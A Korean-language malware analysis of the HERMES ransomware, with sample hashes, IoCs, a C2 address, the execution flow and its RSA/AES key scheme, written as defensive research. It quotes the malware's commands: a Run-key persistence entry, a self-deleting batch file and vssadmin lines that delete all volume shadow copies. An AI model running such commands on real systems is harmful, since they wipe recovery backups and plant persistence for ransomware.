**HERMES** 랜섬웨어는 북한 APT 그룹 **Lazarus**에 의해 사용된 악성코드로, 피해자의 파일을 암호화합니다. AES를 사용하여 파일을 암호화하고, 그 키는 RSA로 보호되는 **하이브리드** 방식을 사용하였습니다. 암호화된 파일에는 **"HERMES" 식별자**가 추가됩니다.


## <mark>0. HERMES 랜섬웨어, 분석 요약</mark>


### 🖥️ <u>분석 환경</u>

| Info | Data                      |
| ---- | ------------------------- |
| VM   | VMware Workstation 17 Pro |
| OS   | Windows 7 Pro SP1         |


### 🔎 <u>샘플 정보</u>

| Info      | Data                                                             |
| --------- | ---------------------------------------------------------------- |
| MD5       | 00dc8878f2b701caf6e629418bf10934                                 |
| SHA256    | 85dac2c41adfeef9328a4313408aeeb77233293ebdd9ded49edc5b33e671b211 |
| File_Type | .exe(32)                                                         |


### ⏯️ <u>실행 흐름</u>

.png)


1. 자기 자신을 **C:\users\Public\winlogon.exe**로 복사.
2. **C:\User\Public\desktop.bat**를 생성하고 실행.
3. 실행된 **desktop.bat**은 원본 파일을 삭제.
4. **HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run** 레지스트리에 **sysrep** 키를 생성하여 지속성 확보.
5. **RSA**와 **AES** 알고리즘을 활용하여 **파일 암호화**.
6. **C:\User\Public\shade.bat** 파일을 생성하고 실행.
7. 실행된 **shade.bat**은 volume shadow를 삭제.
8. **DECRYPT_INFORMATION.html**을 오픈하여 랜섬웨어에 감염된 사실을 사용자에게 통보.
9. **185.162.10.7:80**으로 **user ID(암호화된 데이터의 크기) 전송**.


### 🚫 <u>IoCs</u>

| Info | Data                                                         |
| ---- | ------------------------------------------------------------ |
| Reg  | HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run\sysrep    |
| Reg  | HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run\allkeeper |
| File | C:\Users\Public\winlogon.exe                                 |
| File | C:\Users\Public\PUBLIC                                       |
| File | C:\Users\Public\UNIQUE_ID_DO_NOT_REMOVE                      |
| File | C:\Users\user\Desktop\DECRYPT_INFORMATION.html               |
| File | C:\Users\user\Desktop\UNIQUE_ID_DO_NOT_REMOVE                |
| File | C:\User\Public\shade.bat                                     |
| File | C:\User\Public\desktop.bat                                   |
| C2   | 185.162.10.7:80                                              |


### ✏️ <u>암호화 KEY 보관</u>


- **PUBLIC 파일**
  - user RSA PUBLIC KEY
- **UNIQUE_ID_DO_NOT_REMOVE 파일**
  - user AES KEY로 암호화된 user RSA PRIVATE KEY
  - attacker RSA PUBLIC KEY로 암호화된 user AES KEY
- **Malware 파일**
  - attker RSA PUBLIC KEY

### ✏️ <U>암호화된 파일의 구조</U>

악성코드는 파일 하나당 하나의 **file AES KEY**를 생성하여 파일을 암호화 합니다. 그리고 파일을 암호화했던 file AES KEY를 **user RSA PUBLIC KEY**를 사용하여 암호화한 후 **HERMES** 시그니처 뒤에 추가합니다. 결과적으로 암호화된 파일은 아래와 같은 구조를 가지게 됩니다.


### ✏️ <u>암호화된 파일의 복호화</u>



> [!IMPORTANT]   
> 파일을 복호화하기 위해서는 **attacker RSA PRIVATE KEY**가 필요함.

1. attacker RSA PRIVATE KEY를 사용해 user AES KEY 복호화
2. user AES KEY를 사용하여 user RSA PRIVATE KEY를 복호화
3. user RSA PRIVATE KEY를 사용해 file AES KEY를 복호화
4. file AES KEY를 사용해 data를 복호화


## <mark>1. HERMES 랜섬웨어, 기초 분석</mark>

### ▪ <u>정적 분석</u>

sample1-2 파일은 확장자가 없는 상태로 전달되었고, trid를 사용하여 확인해보니 **InstallShield setup** 포맷으로 확인되었습니다.


내부 문자열을 확인해본 결과, 의심스러운 URL, 자동 실행 관련 레지스트리, 파일명 등이 확인되었습니다.


WinExec, InternetOpen 등의 의심스러운 API 또한 확인 가능했습니다.


### ▪ <u>동적 분석</u>

샘플을 실행하게 되면 **HERMES 2.0** 랜섬웨어 감염되었다는 창이 오픈됩니다. 바탕화면에는 **UNIQUE_ID_DO_NOT_REMOVE** 파일이 확인되고, 실행했던 sample1-2.exe가 삭제됩니다.




procmon을 확인한 결과, sample1-2.exe는 **Public** 폴더에 존재하는 **winlogon.exe** 파일을 실행합니다. 해당 프로세스는 **desktop.bat**과 **shade.bat**을 실행하고 **Auto Run** 관련 레지스트리를 설정하여 지속성을 확보합니다.



로그를 확인해보니 sample1-2.exe 프로세스는 **desktop.bat, winlogon.exe 파일을 드랍**하고 **winlogon.exe를 실행**한 뒤 종료됩니다.


해당 파일들이 작성된 **Public** 폴더로 가보면 **winlogon.exe, PUBLIC, UNIQUE_ID_DO_NOT_REMOVE, DECRYPT_INFORMATION.html** 파일이 확인됩니다. PUBLIC, UNIQUE_ID_DO_NOT_REMOVE 내부에는 알 수 없는 데이터들이 존재했고, sample1-2.exe와 winlogon.exe의 hash 값이 같으므로 **둘은 같은 파일**임을 알 수 있습니다.



winlogon.exe의 로그를 확인해보면, winlogon.exe는 실행된 후 cmd.exe를 사용해 **desktop.bat 파일을 실행**합니다. 해당 파일은 기존 파일인 sample1-2.exe와 desktop.bat을 삭제합니다. 또한 REG.exe를 실행시켜 **winlogon을 자동 실행**하게 끔 설정합니다.







악성코드는 RSA\MachineKeys에 접근하고, **PUBLIC, UNIQUE_ID_DO_NOT_REMOVE 파일을 생성**합니다.



악성코드는 드라이브 내부를 순회하면서 **파일들을 암호화**합니다.



파일 암호화가 완료되면, 악성코드는 REG.exe를 실행시켜 **Auto Run에 등록했던 winlogon.exe를 삭제**하고 cmd.exe를 사용해 **shade.bat 파일을 실행**시킵니다. shade.bat 파일은 vssamin.exe를 실행하여 **volume shadow를 삭제**합니다.







volume shadow 정리가 끝난 후에는 UNIQUE_ID_DO_NOT_REMOVE, DECRYPT_INFORMATION.html 파일을 바탕화면에 생성하고, **DECRYPT_INFORMATION.html를 Auto Run에 추가**한 후 악성코드는 종료됩니다.





네트워크 행위로는 **185.162.10.7:80**으로 GET 요청을 보낸 것을 확인할 수 있었습니다.



## <mark>2. 실행 준비</mark>

### ▪ <u>수동 API 획득</u>

악성코드가 sample1-2.exe로 실행되었을 때, main에 도달하게 되면 악성 행위를 수행할 준비를 하기 위해 여러 함수들을 실행하게 됩니다.



get_apis 함수에서는 PEB에 접근하여 ntdll_base를 획득한 후 get_api 함수를 호출하여 필요한 함수의 주소들을 획득합니다.



### ▪ <u>winlogon.exe으로 재실행</u>

이후 check_file_path를 호출하여 C:\users\Public\winlogon.exe 경로가 존재하는지 확인합니다. 만약 OS가 XP인 경우에는 C:\Documents and Settings\All Users\winlogon.exe 경로를 확인합니다.



만약 존재하지 않는다면, **C:\users\Public\desktop.bat 파일을 생성**한 후 자기 자신을 **C:\users\Public\winlogon.exe 경로에 복사**합니다. desktop.bat의 코드는 sample1-2.exe와 desktop.bat을 삭제하는 코드입니다. 악성코드는 winlogon.exe를 실행시키고 자신을 종료시킵니다.

```cmd
@echo off\r\ndel "C:\Users\user\Desktop\1. sample\sample1-2.exe"\r\ndel %0
```





### ▪ <u>지속성 확보</u>

악성코드는 자신이 실행 실패했을 때를 대비하여 set_auto_run 함수를 통해 자신을 레지스트리에 등록하여 **지속성을 확보**합니다.

```cmd
REG ADD "HKEY_CURRENT_USER\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" /v "sysrep" /t REG_SZ /d "C:\Users\Public\winlogon.exe" /f
```



## <mark>3. RSA 키 관련 파일 생성</mark>

### ▪ <u>PUBLIC, UNIQUE_ID_DO_NOT_REMOVE 파일</u>

악성코드는 파일을 암호화하기 위해 **RSA, AES 알고리즘을 사용**합니다. 여기서 **PUBLIC 파일**은 user RSA PUBLIC KEY이고, UNIQUE_ID_DO_NOT_REMOVE는 user AES KEY로 암호화된 USER RSA PRIVATE KEY와 이 KEY를 암호화한 USER AES KEY가 attacker RSA PUBLIC KEY로 암호화되어 저장되어 있습니다.


### ▪ <u>PUBLIC 생성</u>

악성코드는 PUBLIC 파일이 존재하는지 확인하고 존재하지 않으면 create_rsa_key_file를 호출하여 RSA키를 생성하고 암호화 합니다.



create_rsa_key_file에서는 **user RSA PUBLIC KEY를 생성하여 PUBLIC 파일을 생성**합니다.




### ▪ <u>UNIQUE_ID_DO_NOT_REMOVE 생성</u>

user RSA PRIVATE KEY는 user AES KEY를 생성하여 암호화하고 이 user AES KEY를 다시 attacker RSA PUBLIC KEY로 암호화하여 **C:\Users\Public\PUBLIC\UNIQUE_ID_DO_NOT_REMOVE** 파일에 저장합니다.




### ▪ <u>attacker RSA PUBLIC KEY</u>

이 때 사용되는 **attacker RSA PUBLIC KEY는 winlogon.exe의 끝부분에 하드코딩**되어 있습니다. 해당 데이터는 가장 마지막 섹션인 rsrc 섹션에 포함되지 않는 부분이라 메모리 상에서는 attacker RSA PUBLIC KEY를 확인할 수 없게 끔 되어 있습니다.





## <mark>4. 파일 암호화 전 준비</mark>

### ▪ <u>AES context 생성</u>

악성코드는 파일을 암호화하기 전에 몇가지 준비를 합니다. 파일 암호화에 사용할 AES context를 생성합니다.


### ▪ <u>user RSA PUBLIC KEY 획득</u>

앞서 생성한 PUBLIC 파일에서 user RSA PUBLIC KEY를 획득합니다. 이 키는 파일 암호화에 사용되는 file AES KEY를 암호화하는데 사용됩니다.



### ▪ <u>DECRYPT_INFORMATION.html 복호화</u>

그후 사용자에게 시스템이 암호화되었다는 사실을 알려주기 위한 DECRYPT_INFORMATION.html 파일을 복호화하고 bitmessage 주소를 세팅합니다.



## <mark>5. 로컬 드라이브 암호화</mark>

악성코드는 A, B, C, D, E 드라이브에 대해서 암호화를 수행합니다.



encrypt 함수를 재귀적으로 호출하여 모든 파일을 순회합니다.



### ▪ <u>파일 체크</u>

기본적으로 FindFirstFileW와 FindNextFileW를 사용하여 파일들 확인합니다. 이중 **Windows, microsoft, Microsoft, Program, All Users, Default, $Recycle.Bin, WINDOWS** 문자열이 포함되는 파일은 암호화에서 제외됩니다.



마찬가지로 숨김 파일이나 시스템 파일들도 암호화에서 제외됩니다.



복호화 관련 파일인 DECRYPT_INFO.txt와 DECRYPT_INFORMATION.html도 암호화에서 제외됩니다.



악성코드 내부에는 암호화를 수행할 파일을 확인하기 위한 809가지의 확장자를 포함하는 배열이 존재하고, 파일명에 해당 확장자가 존재하는지 확인합니다.





파일에 대한 모든 체크가 끝났다면 encrypt_file_content를 호출하여 파일을 암호화합니다.



### ▪ <u>UNIQUE_ID_DO_NOT_REMOVE 복사</u>

파일 순회 과정에서 Desktop 폴더를 제외한 나머지 폴더에는 UNIQUE_ID_DO_NOT_REMOVE, DECRYPT_INFORMATION.html 파일을 생성합니다.



## <mark>6. 파일 암호화</mark>

### ▪ <u>암호화된 파일인지 확인</u>

악성코드의 encrypt_file_content 함수는 파일 암호화를 담당합니다. **가장 먼저 파일 뒷부분으로부터 0x112 위치에 "HERMES"라는 문자가 있는지 확인**합니다. 해당 문자는 현재 파일이 암호화되어 있는지 확인하는 시그니쳐 역할을 합니다.





### ▪ <u>파일 암호화</u>

파일을 암호화하기 전 file AES KEY를 하나 생성합니다. 이 **file AES KEY를 사용하여 파일을 암호화**합니다.





모든 파일을 암호화했다면, **암호화 시그니처인 "HERMES" 문자열을 추가**합니다. 



그리고 파일을 암호화했던 AES KEY를 user RSA PUBLIC KEY를 사용하여 암호화한 후 HERMES 시그니처 뒤에 추가합니다.



마지막으로 **암호화한 데이터의 크기를 저장합니다. 이 값은 나중에 user ID로 사용**됩니다.



따라서 암호화된 파일은 다음과 같은 구조를 가집니다. 만약 파일을 복호화하고 싶다면, 먼저 user RSA PRIVATE KEY를 획득하여 file AES KEY를 복호화한 후, 해당 file AES KEY를 사용하여 파일을 복호화해야 합니다.


## <mark>7. 네트워크 리소스 암호화</mark>

### ▪ <u>네트워크 리소스 경로 획득</u>

네트워크 드라이브를 암호화하기 위해 get_net_rsc_path를 호출하여 네트워크 리소스에 대한 경로들을 획득합니다. 획득한 리소스 경로는 **";"** 문자에 의해 구분되어 저장됩니다.





### ▪ <u>네트워크 리소스 암호화</u>

획득한 네트워크 리소스 경로에 UNIQUE_ID_DO_NOT_REMOVE, DECRYPT_INFORMATION.html 파일을 생성한 후,  로컬 드라이브 암호화와 마찬가지로 encrypt 함수를 호출하여 파일들을 암호화 합니다.



## <mark>8. 파일 암호화 완료 후</mark>

### ▪ <u>winlogon.exe의 auto run 삭제</u>

모든 파일 암호화가 완료되었다면, **Auto Run에 등록했던 winlogon.exe를 삭제**합니다.



### ▪ <u>shade.bat을 실행하여 volume shadow 삭제</u>

delete_shadow 함수를 호출하여, **shade.bat 파일을 만들고 실행**합니다. 



shade.bat 파일은 **volume shadow를 정리**하는 코드가 존재합니다.



```cmd
vssadmin Delete Shadows /all /quiet
vssadmin resize shadowstorage /for=c: /on=c: /maxsize=401MB
vssadmin resize shadowstorage /for=c: /on=c: /maxsize=unbounded
vssadmin resize shadowstorage /for=d: /on=d: /maxsize=401MB
vssadmin resize shadowstorage /for=d: /on=d: /maxsize=unbounded
vssadmin resize shadowstorage /for=e: /on=e: /maxsize=401MB
vssadmin resize shadowstorage /for=e: /on=e: /maxsize=unbounded
